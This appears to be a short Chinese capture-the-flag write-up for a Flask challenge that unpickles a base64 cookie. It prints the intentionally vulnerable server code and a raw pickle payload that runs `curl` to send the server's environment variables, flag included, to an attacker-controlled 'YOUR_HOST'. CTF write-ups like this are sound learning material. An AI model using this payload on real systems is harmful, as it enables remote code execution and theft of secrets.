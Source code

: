 ```python
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

import pickle
import base64

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
	return send_file('pickle.jpg')

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response

app.run(threaded=True, host="0.0.0.0")
```

很容易知道 flag 位于环境变量中，且 Cookie 处存在 pickle 反序列化漏洞。构建出如下脚本生成 payload。

```python
import base64

data = b'''(S'curl -H "agent: `env`" YOUR_HOST'
ios
system
.'''
print(base64.b64encode(data))
```

将生成出来的 payload 拼接到 Cookie 当中发起请求，即可在监听端得到包含 flag 的响应。
